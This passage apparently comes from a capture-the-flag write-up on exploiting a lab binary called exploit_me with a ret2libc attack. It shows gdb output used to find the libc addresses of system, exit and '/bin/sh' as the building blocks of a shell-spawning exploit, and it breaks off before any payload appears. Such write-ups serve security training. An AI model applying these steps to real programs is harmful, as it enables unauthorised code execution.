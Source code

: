 No ASLR, go exploit with a ret2libc like a warrior. For this, we need the addresses of the function `system`, `exit` and a string `/bin/sh`

```
(gdb) info proc map
process 2673
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
	 0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
	0xb7e2b000 0xb7e2c000     0x1000        0x0 
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0 
	0xb7fdb000 0xb7fdd000     0x2000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000,0xb7fcf000,"/bin/sh"
0xb7f8cc58
1 pattern found.
```

The address of `"/bin/sh"` is `0xb7f8cc58`

```
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xb7e6b060  __libc_system
0xb7e6b060  system
0xb7f49550  svcerr_systemerr
```

The address of the fucntion system is `0xb7e6b060`

```
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xb7e5ebe0  exit
0xb7e5ec10  on_exit
0xb7e5ee20  __cxa_atexit
0xb7e5efc0  quick_exit
0xb7e5eff0  __cxa_at_quick_exit
0xb7ee41d8  _exit
0xb7f28500  pthread_exit
0xb7f2dc10  __cyg_profile_func_exit
0xb7f4c750  svc_exit
0xb7f56c80  atexit
```
